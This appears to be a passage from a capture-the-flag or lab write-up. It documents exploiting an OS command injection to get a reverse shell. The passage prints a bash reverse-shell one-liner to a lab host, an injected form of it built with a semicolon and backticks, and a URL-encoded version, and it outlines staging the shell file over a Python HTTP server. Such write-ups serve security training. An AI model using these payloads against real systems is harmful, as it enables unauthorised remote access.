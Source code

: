 ![](./IMG/22.png)
- Try to pipe it to bash, it still won't get reverse shell back to nc 
```
;`bash -i >& /dev/tcp/10.10.16.107/1337 0>&1|bash`
```
- URL Encoding 
```
%3b%60bash+-i+%3e%26+%2fdev%2ftcp%2f10.10.16.107%2f1337+0%3e%261%7cbash%60
```
![](./IMG/23.png)
- But with above test, I am sure that the os command injection can set data back to my host
- So, I tried to change the way,
	1. I set up the shell to file
	2. Using python http server to transfer the shell file to victim and execute it.
```
bash -i >& /dev/tcp/10.10.16.107/1337 0>&1
```
